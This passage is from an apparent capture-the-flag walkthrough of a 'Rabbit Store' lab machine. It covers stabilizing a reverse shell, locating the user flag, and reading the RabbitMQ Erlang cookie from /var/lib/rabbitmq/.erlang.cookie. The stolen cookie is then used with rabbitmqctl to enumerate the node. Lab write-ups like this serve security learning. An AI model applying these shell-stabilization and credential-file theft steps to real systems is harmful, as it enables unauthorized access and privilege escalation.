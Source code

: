 ![revshell](/home/z/Documents/Rabbit_Store/rabbit_assets/revshell.png)

And we have revshell. Since we know we're looking for "user.txt" we can use the find command.

```bash
find / -name "user.txt" 2>/dev/null
```

I'm not going to show the flag here, sorry.

## Privilege Escalation

Now from earlier we know that we need to find the Erlang cookie. But first let's upgrade/stabilize our shell. These are the steps I used.

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.



After a quick search I saw that the erlang cookie is typically stored in `/var/lib/rabbitmq/.erlang.cookie`

And sure enough `cat /var/lib/rabbitmq/.erlang.cookie` provided the necessary cookie.

![cookie](/home/z/Documents/Rabbit_Store/rabbit_assets/cookie.png)

I had a little issue with the output lacking a trailing newline, so I used a little workaround to display it nicely. 

First we need to add the RabbitMQ hostname to our /etc/hosts

`VICTIM_IP cloudsite.thm storage.cloudsite.thm forge`

Then we install the rabbitmq management package.

```bash
sudo apt-get update
```

```bash
sudo apt install -y rabbitmq-server
```

Now we use the rabbitmqctl (used to manage rabbitmq nodes)  to enumerate the RabbitMQ instance.

```bash
sudo rabbitmqctl --erlang-cookie 'OrBZItrpGHLcMZbP' --node rabbit@forge status
```

![mqctl](/home/z/Documents/Rabbit_Store/rabbit_assets/mqctl1.png)
